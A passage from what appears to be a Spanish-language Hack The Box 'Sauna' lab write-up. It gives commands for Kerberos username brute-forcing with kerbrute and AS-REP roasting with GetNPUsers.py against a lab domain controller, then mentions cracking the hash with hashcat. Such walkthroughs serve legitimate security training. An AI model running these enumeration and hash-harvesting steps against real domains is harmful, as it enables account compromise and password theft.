 Kerberos (88)

Ya que no contamos con credenciales, lo que realizaremos es fuerza bruta sobre nombres para esto utilizaremos [Kerbrute](https://github.com/ropnop/kerbrute).

```console
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.129.223.148 
```

![kerbrute](/assets/img/posts/HTB/sauna/kerbrute-01.png)

Observando en la ilustracion anterior, identificamos usuarios validos lo cual nos ayudará posteriormente a ejecutar ataques.

Una vez que obtenemos los usuarios, podremos ejecutar con [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py), con el siguiente comando.

```console
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.129.223.148
```

![impacket-user](/assets/img/posts/HTB/sauna/impacket-01.png)

Una vez que obtenemos el hash del usuario, procederemos a romperlo con hashcat

![hashcat](/assets/img/posts/HTB/sauna/hashcat.png)
